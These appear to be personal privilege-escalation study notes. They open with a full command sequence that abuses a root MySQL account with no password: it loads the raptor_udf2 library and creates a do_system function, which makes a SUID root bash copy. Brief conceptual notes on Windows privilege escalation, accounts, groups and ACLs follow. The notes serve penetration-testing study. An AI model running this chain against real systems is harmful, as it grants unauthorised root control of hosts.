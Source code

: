 ## mysqld service using root account with no password
```bash
$mysqld --version
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl, -soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lC
$ mysql -u root -p

mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
mysql> exit

$/tmp/rootbash -p
#
```
## Windows Privilege Escalation
The ultimate goal is to gain a shell running as administrator or system users. Windows privilege escalations can be simple(eg. a kernel exploits) or require a lot of reconnaissance on the compromised system. 
In lot of cases it may not rely on a single misconfigurations, but may require you to think and combine multiple configurations. 

## General Conecpts:
All privilege esclations are effectively exmaples of a access control violations. Access control and user permission are intrinsically linked. When focusing on privilege escalations in windows, understanding how windows handles permission is very important. 

## Permission in windows. 
Two types of Account: 
User account: Administrator and general account. 
Service account: Used for running services in windows system. System account is the default service account which has highest privileges. Other default service account includes NETWORK SERVICE and LOCAL SERVICE. 

## Groups

User accounts can belong to multiple groups, and groups can have multipel users. 
Groups allow easier access control to resources.
Reular groups(eg. administrator, Users) have a list of members. 

Pseudo groups (eg. "Authenticated Users) have a dynamic list of members which changes based on certain interactions. 

## Resource
In windows there are multiple types of resoure (also known as objects):
** Files/Directories.
** Registry Entries
** Services
Whether a user and or/group has a permission to perform a certain action on a resource depends on that resossurce's ACL(access control list)
